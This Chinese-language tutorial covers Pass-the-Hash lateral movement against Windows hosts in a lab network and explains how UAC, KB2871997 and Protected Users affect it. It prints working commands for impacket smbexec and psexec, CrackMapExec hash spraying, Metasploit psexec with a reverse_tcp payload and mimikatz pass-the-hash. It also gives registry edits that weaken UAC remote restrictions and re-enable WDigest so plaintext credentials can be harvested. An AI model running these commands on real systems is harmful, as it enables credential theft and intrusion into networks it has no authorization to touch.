# PTH 哈希传递攻击

Pass The Hash(PTH)哈希传递攻击是内网横向移动的一种方式。主要原因是NTLM 认证过程和 Kerberos 认证过程默认都是使用的用户密码的 NTLM Hash 来进行加密。因此当我们获取到了用户密码的 NTLM Hash 而没有解出明文时，我们可以利用该 NTLM Hash 进行哈希传递攻击，**对内网其他机器进行 Hash 碰撞，碰撞到使用相同密码的机器**。然后**通过 135 或 445 端口横向移动到使用该密码的其他机器**；并且由于 Windows Server2012 及其以后的机器，默认不会在内存中保存明文密码。因此，当我们使用 mimikatz 等抓取密码工具抓不到明文密码时，哈希传递攻击就显得尤为重要了！

## 本地账号和域账号哈希传递区别

使用本地账号和域账号进行哈希传递攻击过程是有区别的，我们先来看看下面这一个实验。

目标主机 10.211.55.13 上有如下用户：

- pubcli_user：本地普通用户
- test：本地管理员组用户
- administrator：本地管理员组用户
- xie\hack：域用户，在本地管理员组中

如图所示，可以看到目标主机用户信息和本地管理员组信息。



我们获得了以上用户的密码哈希，现在我们想通过哈希传递攻击通过 SMB 远程登录。使用 impacket 下面的 smbexec 脚本进行测试，命令如下：

```
python3 smbexec.py public_user@10.211.55.13 -hashes aad3b435b51404eeaad3b435b51404ee:74520a4ec2626e3638066146a0d5ceae
python3 smbexec.py test@10.211.55.13 -hashes aad3b435b51404eeaad3b435b51404ee:74520a4ec2626e3638066146a0d5ceae
python3 smbexec.py administrator@10.211.55.13 -hashes aad3b435b51404eeaad3b435b51404ee:329153f560eb329c0e1deea55e88a1e9
python3 smbexec.py xie/hack@10.211.55.13 -hashes aad3b435b51404eeaad3b435b51404ee:b98e75b5ff7a3d3ff05e07f211ebe7a8
```

实验结果如图所示，本地普通用户 public_user 和本地管理员组用户 test 哈希传递攻击失败。而本地管理员组用户 administrator 和在本地管理员组中的域用户xie\hack 哈希传递攻击成功！



那么，是什么造成了以上不同账号哈希传递攻击结果不同呢？答案是 **UAC(User Account Control)**

### 1.UAC(User Account Control)

**UAC(User Account Control)用户帐户控制**是 Windows Vista 开始起引入的一个新的安全组件。UAC 允许用户作为非管理员身份执行常见的日常任务。这些用户在 Windows Vista 中被称为标准用户。作为本地管理员组成员的用户帐户将使用最小特权原则运行大多数应用程序。在这种情况下，最少特权的用户具有类似于标准用户帐户的权限。但是，当本地管理员组的成员必须执行需要管理员权限的任务时，Windows Vista 会自动提示用户获得批准。

为了更好地保护本地管理员组中的那些用户，微软在网络上实现了 UAC 限制。这种机制有助于防止环回攻击。该机制还有助于防止本地恶意软件以管理权限远程运行。结果就是，当内置的管理员账户 administrator 进行远程连接时会直接得到具有管理员凭证的令牌，而**非 administrator 的本地管理员账户进行远程连接时，会得到一个删除了管理员凭证的令牌**。而通过**本地管理员组中的域用户进行远程连接时，UAC 不会生效**，会直接得到一个具有管理员凭证的令牌。

因此在以上试验中，使用本地普通用户 public_user 和本地管理员组用户 test 哈希传递攻击会失败。而本地管理员组用户 administrator 和本地管理员组中的域用户 xie\hack 哈希传递攻击会成功！

> Administrator：如同大楼的主人，拥有所有钥匙，UAC** 不会限制**他，所以能成功远程连接。
> 
> Test（本地管理员组用户）：虽然本地是管理员，但远程时保安系统（UAC）对他施加限制，**削弱了他的权限，进行了远程连接限制**，所以失败。
> 
> Public_user（普通用户）：权限太低，无法远程获得管理权限，所以失败。
> 
> Xie/hack（域用户）：总部的高级管理员，保安系统对他开放权限，**不进行限制**，因此成功。

那么，对于网络管理员而言，如何**禁止内置的管理员账号 administrator 进行远程连接时得到具有管理员凭证的令牌**呢？

对于安全研究员而言，如何**让非 administrator 的本地管理员账户进行远程连接时也得到一个具有管理员凭证的令牌**呢？

### 2.FilterAdministratorToken

我们先看如何禁止内置的管理员账号 administrator 进行远程连接时得到具有管理员凭证的令牌。

通过查看 UAC 组策略设置和注册表项设置的官方文档我们可以看到 `FilterAdministratorToken` 注册表值，其描述是 `User Account Control: Admin Approval Mode for the built-in Administrator account`，默认是 `Disabled`。如图所示：



再看看` Admin Approval Mode` 的解释，如图所示，该值控制内置管理员帐户administrator 的管理员审批模式的行为。

- 如果该值启用，则内置的管理员账户 administrator 使用管理员审批模式，默认情况下，任何需要提升特权的操作都将提示用户批准该操作。
- 如果该值关闭，则内置的管理员账户 administrator 运行具有完全管理权限的所有应用程序。



也就是说，**当该值开启时，即使是内置的管理员账户 administrator 进行远程连接时，也需要提示用户批准该行为**。但是**该值是默认关闭的**，因此内置的管理员账户administrator 进行远程连接时，不需要提示用户批准该行为就可以直接获得一个完全管理员权限的令牌。如图所示，该值默认是为 0，即关闭。



***因此如果网络管理员想禁止内置的管理员账号 administrator 进行远程连接时得到具有管理员凭证的令牌，可以执行如下命令将 FilterAdministratorToken 注册表值设置为 1。***

```
reg add HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v FilterAdministratorToken /t REG_DWORD /d 1 /f
```

如图将 FilterAdministratorToken 注册表值设置为 1。



再次执行如下命令使用内置的 administrator 账号和域账号进行哈希传递攻击

```
python3 smbexec.py administrator@10.211.55.13 -hashes aad3b435b51404eeaad3b435b51404ee:329153f560eb329c0e1deea55e88a1e9
python3 smbexec.py xie/hack@10.211.55.13 -hashes aad3b435b51404eeaad3b435b51404ee:b98e75b5ff7a3d3ff05e07f211ebe7a8
```

如图所示，可以看到内置的 administrator 账号哈希传递失败，但是域账号不受此值影响！



### 3.LocalAccountTokenFilterPolicy

我们再来看看如何让非 administrator 的本地管理员账户进行远程连接时也得到一个具有管理员凭证的令牌呢？

微软的官方文档给出了操作流程，如图所示。



**UAC 远程连接限制**是通过注册表`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy` 来控制的。默认情况下，Windows Vista 及其以后的系统没有该注册表值。我们可以通过如下命令查询该注册表值。

```
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system/v LocalAccountTokenFilterPolicy
```

如图所示，可以看到默认情况下查询不到该值。



***因此，如果想禁用 UAC 远程连接限制，我们可以在远程主机系统上执行如下命令创建 `LocalAccountTokenFilterPolicy` 注册表值，并将其值赋为 1。***

```
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```

如图所示，创建 `LocalAccountTokenFilterPolicy` 注册表值，并将其值赋为 1。



这时只要是本地管理员组用户均可以在远程连接时获得一个具有管理员权限的令牌。

如图所示，可以看到当未增加注册表前，使用本地管理员用户 test 进行哈希传递攻击失败。当我们增加了该注册表值后再次使用本地管理员用户 test 进行哈希传递攻击，发现可以攻击成功了！



如果我们利用成功后想删除该注册表值，可以使用如下命令进行删除。

```
reg delete HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system/v LocalAccountTokenFilterPolicy /f
```

删除了该注册表值后，再次使用本地管理员用户 test 进行哈希传递攻击，如图所示，可以看到攻击失败。



### 4.本地账号

通过以上实验我们可以知道，**本地账号受 UAC 远程连接的影响**，默认情况下，在使用哈希传递攻击的过程中不同系统版本有所不同。

- Windows Vista 之前的机器，可以使用本地管理员组内所有用户进行哈希传递攻击。
- Windows Vista 及其之后的机器，**只能是 administrator 用户的哈希值才能进行哈希传递攻击，其他非 administrator 的本地管理员用户不能使用哈希传递攻击，会提示拒绝访问**。

### 5.域账号

**域账号则不受 UAC 远程连接的影响**，默认情况下，使用哈希传递过程如下：

- 针对普通域主机，可以使用该域主机本地管理员组内的普通域用户进行哈希传递攻击。
- 针对域控，可以使用域管理员组内所有用户进行哈希传递攻击。

## 哈希碰撞

在企业内网环境中，很多计算机在安装的时候使用的是相同的密码。因此，当我们获得了其中某一台机器的密码 Hash 而无法解密成明文时，我们就可以利用哈希碰撞来碰撞出使用相同密码的机器。进行哈希碰撞的工具有很多，如CrackMapExec、MSF 等。

### 1.CrackMapExec

我们使用 CrackMapExec 工具执行如下命令进行内网哈希碰撞

```
crackmapexec.exe 10.211.55.0/24 -u administrator -H aada8eda23213c027743e6c498d751aa:329153f560eb329c0e1deea55e88a1e9
```

运行完成后，如果目标主机使用相同的密码，则会提示[+]。

### 2.MSF

我们可以使用 MSF 里面的` exploit/windows/smb/psexec `模块进行哈希传递，当rhosts 参数指定为一个网段时，就可以进行哈希碰撞了！

```
use exploit/windows/smb/psexec
set payload windows/meterpreter/reverse_tcp
set rhosts 10.211.55.0/24
set smbuser administrator
set smbpass aada8eda23213c027743e6c498d751aa:329153f560eb329c0e1deea55e88a1e9
run
```

如图所示，使用 MSF 进行哈希碰撞。



运行完成后，如果目标主机使用相同的密码，则会提示[+]，并且会获得使用该密码主机的权限。如图所示：



我们可以执行 sessions -l 命令查看已经获得权限机器的的 session，如图所示：



注：实际内网使用 MSF 来进行哈希碰撞，需要修改 payload，修改为**正向的payload**。

## 利用哈希传递进行横向移动

利用哈希传递进行横向移动的工具有很多，比如 MSF、mimikatz、impacket 里面的 psexec、smbexec、wmiexec 等脚本均可以利用密码的 Hash 来进行横向移动。

### 1.MSF 进行哈希传递攻击

我们可以使用 MSF 里面的 `exploit/windows/smb/psexec` 模块进行哈希传递，当rhosts 参数指定为具体的 ip 时，就可以获得指定目标 ip 的权限！

```
use exploit/windows/smb/psexec
set payload windows/meterpreter/reverse_tcp
set rhosts 10.211.55.7
set smbuser administrator
set smbpass aada8eda23213c027743e6c498d751aa:329153f560eb329c0e1deea55e88a1e9
run
```

注：实际内网使用 MSF 来进行哈希传递的话，需要修改 payload，修改为**正向的payload**。

### 2.mimikatz 进行哈希传递攻击

我们也可以使用 mimikatz 执行如下命令进行哈希传递横向移动，获得目标主机一个可交互式的 shell。

```
privilege::debug
sekurlsa::pth /user:administrator /domain:10.211.55.7 /ntlm:329153f560eb329c0e1deea55e88a1e9
```

如图所示，使用 mimikatz 进行哈希传递横向移动，获得目标主机一个可交互式的shell。



在弹出的 cmd 窗口中，使用` wmiexec.vbs` 执行如下命令进行验证执行交互式命令。

```
cscript wmiexec.vbs /shell 10.211.55.7
```

如图所示，可以看到获得了一个可交互式的权限。



### 3.impacket 进行哈希传递攻击

我们可以使用 impacket 里面的 psexec、smbexec、wmiexec、atexec、dcomexec 等脚本利用哈希进行横向移动，以下演示使用 psexec.py 脚本进行哈希传递。

使用 psexec.py 脚本执行如下命令利用哈希进行横向移动获取目标主机的可交互式 shell。

```
python3 psexec.py administrator@10.211.55.7 -hashes 329153f560eb329c0e1deea55e88a1e9:329153f560eb329c0e1deea55e88a1e9
```

如图所示，使用 psexec 哈希传递获得目标主机权限。



## 更新 KB2871997 补丁产生的影响

微软在 2014 年 5 月 13 日发布了针对 Pass The Hash 哈希传递攻击的更新补丁KB2871997。其标题为`"Update to fix the Pass-The-Hash Vulnerability"`，而在一周后微软却把标题改成了`"Update to improve credentials protection and management"`。事实上，正如标题所言，这个补丁的最大作用是更新以改进凭据保护和管理。这个补丁主要包含 Windows 8.1 和 Windows Server2012 R2 中引入的增强安全保护机制。使得 Windows 7、Windows 8、Windows Server 2008R2 等低版本系统也可以获得新的安全保护机制，但是这个补丁并不能够修复PTH 哈希传递攻击。

那么问题来了，KB2871997 补丁引入了哪些新的安全保护机制呢？

- "Protected Users"组的支持
- "Restricted Admin RDP"模式远程客户端支持
- "Pass The Hash"增强保护

### 1."Protected Users"组的支持

"Protected Users" 组是通过哪些安全措施保护组内用户安全性的呢？

- "Protected Users"组中的用户强制只能使用 Kerberos 协议进行身份验证，拒绝 NTLM、Digest 和 CredSSP 认证。
- 使用 Kerberos 协议进行身份验证的时候拒绝使用 DES 和 RC4 加密类型，强制使用 AES 加密进行预身份验证。这也意味着目标域需要配置为支持AES 加密。
- 不能使用 Kerberos 约束性或非约束性委派来委派用户的账户。

从上面安全保护措施可以看到，"Protected Users"组的成员将无法使用 NTLM、Digest 和 CredSSP 进行认证，强制使用 Kerberos 协议进行身份认证。并且使用 Kerberos 协议进行身份认证的时候，也无法使用 DES 和 RC4 加密类型进行预认证，只能强制使用具有更高加密强度的 AES 加密进行预身份认证。因此在Kerberos 身份认证阶段就用不到 NTLM hash 了。攻击者也就无法进行哈希传递攻击了。

而 KB2871997 补丁使得低于 Windows Server 2012R2 域功能级别的域控也支持"Protected Users"组。**因此，如果将敏感用户加入"Protected Users"组后，则该敏感用户无法将无法进行哈希传递攻击。**

如图所示，当未将 administrator 加入"Protected Users"组时，可以进行哈希传递攻击。当把 administrator 加入"Protected Users" 组后，无法进行哈希传递攻击。



### 2."Restricted Admin RDP"模式远程客户端支持

`"Restricted Admin RDP" `模式增强了安全性以保护用户的凭据，但是此模式对于`"Remote Desktop Users"`组内的用户不可用。在`"Restricted Admin RDP"` 模式之前，RDP 登录是一个交互式的登录，只有在用户提供用户名和密码之后，才可以获得访问权限。以这种方式 RDP 登录到目标主机会将用户的凭据存储在目标主机的内存中。如果目标主机被拿下，此凭据也会被盗。而`"Restricted Admin RDP"` 模式能够支持网络登录，即可以通过用户现有的登录令牌来进行RDP 的身份验证。使用这种登录类型可以确保在目标主机上不保存用户的凭据。

KB2871997 补丁使得低于 Windows 8.1 和 Windows Server 2012R2 版本的机器也支持`"Restricted Admin RDP"` 模式。但是从上面的描述中我们可以看出，`"Restricted Admin RDP"` 模式对 PTH 哈希传递攻击并没有有效改善。反而引入了一种新的攻击方式——**Pass The Hash with Remote Desktop**。

#### Pass The Hash with Remote Desktop

应用了"Restricted Admin RDP" 模式的主机支持使用 hash 凭据来 RDP 登录远程主机，而无需输入用户的明文密码，**因此攻击者可以通过 Hash 来进行 RDP 远程桌面登录。但是前提是使用 PTH 进行 RDP 登录要求进行连接的客户端也得支持"Restricted Admin RDP" 模式，并且连接的用户需要是本地管理员用户**。

如图所示，目标主机存在 test、hack 和 administrator 用户。



test 是普通用户，而 hack 和 administrator 是本地管理员用户。三个用户均能通过 RDP 使用明文账号密码进行连接。现在我们知道了这三个用户的密码哈希，但没有解出明文密码。现在，我们想利用密码 Hash 进行 RDP 的 PTH 攻击。

使用 administrator 账号密码哈希执行如下命令进行 PTH 哈希传递 RDP 服务。

```
privilege::debug
sekurlsa::pth /user:administrator /domain:10.211.55.16 /ntlm:329153f560eb329c0e1deea55e88a1e9 "/run:mstsc.exe /restrictedadmin"
```

如图所示，使用 administrator 密码哈希进行 PTH 哈希传递 RDP 服务攻击成功。



使用 hack 账号密码哈希执行如下命令进行 PTH 哈希传递 RDP 服务。

```
privilege::debug
sekurlsa::pth /user:hack /domain:10.211.55.16 /ntlm:329153f560eb329c0e1deea55e88a1e9 "/run:mstsc.exe /restrictedadmin"
```

使用 hack 密码哈希进行 PTH 哈希传递 RDP 服务攻击成功。



使用 test 账号密码哈希执行如下命令进行 PTH 哈希传递 RDP 服务。

```
privilege::debug
sekurlsa::pth /user:test /domain:10.211.55.16 /ntlm:329153f560eb329c0e1deea55e88a1e9 "/run:mstsc.exe /restrictedadmin"
```

如图所示，使用 test 密码哈希进行 PTH 哈希传递 RDP 服务攻击失败。提示连接被拒绝！**原因在于 test 用户不是目标主机的本地管理员用户**。



如果目标主机支持"Restricted Admin RDP" 模式，但没有开启的话，可以使用以下命令开启：

```
REG ADD HKLM\System\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin /t REG_DWORD /d 00000000 /f
```

执行以上命令开启了"Restricted Admin RDP" 模式后，可以执行如下命令查询是否开启成功。值为 0，代表开启; 值为 1，代表关闭

```
REG query "HKLM\System\CurrentControlSet\Control\Lsa" | findstr "DisableRestrictedAdmin"
```

### 3."Pass The Hash"增强保护

#### (1) 注销时清除凭据

默认情况下，当用户远程桌面登录时，Windows 会在 LSASS 内存中缓存用户的明文凭据、NTLM 密码散列、Kerberos TGT 票据等。但是，在用户注销后，这些凭据却不一定会在 LSASS 内存中清除。而此更新可以确保在用户注销后在进程中清除这些凭据。

#### (2) 从 LSASS 内存删除明文凭证

**通过将明文凭证从 LSASS 内存中移除，攻击者无法通过 mimikatz 等工具从内存中抓取到用户的明文凭据，但是 NTLM 哈希、Kerberos 票据等仍然会存储在LSASS 内存中**。该功能是通过**禁用 Wdigest 认证**来实现的。因此默认情况下，Windows 8.1 和 Windows Server2012R2 高版本系统是没有`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest\UseLogonCredential` 注册表键，说明禁用了 Wdigest 认证。但是实际情况是有一些服务需要开启 Wdigest 认证，因此管理员可以手动注册该`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest\UseLogonCredential` 键，并通过将其赋值为 0 或 1 来选择关闭或开启 Wdigest 认证。

如图所示，可以看到默认情况下没有 UseLogonCredential 注册表。



因此，在高版本系统中是无法通过 mimikatz 抓到明文密码的。如图所示：



如果安全研究执行如下命令手动注册该`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest\UseLogonCredential `键，并且将其值赋为 1 的话，即使在打了补丁的系统中，也能在内存中抓到明文凭据。

```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
```

如图可以看到已经增加了 UseLogonCredential 键，并且其值已经为 1 了。

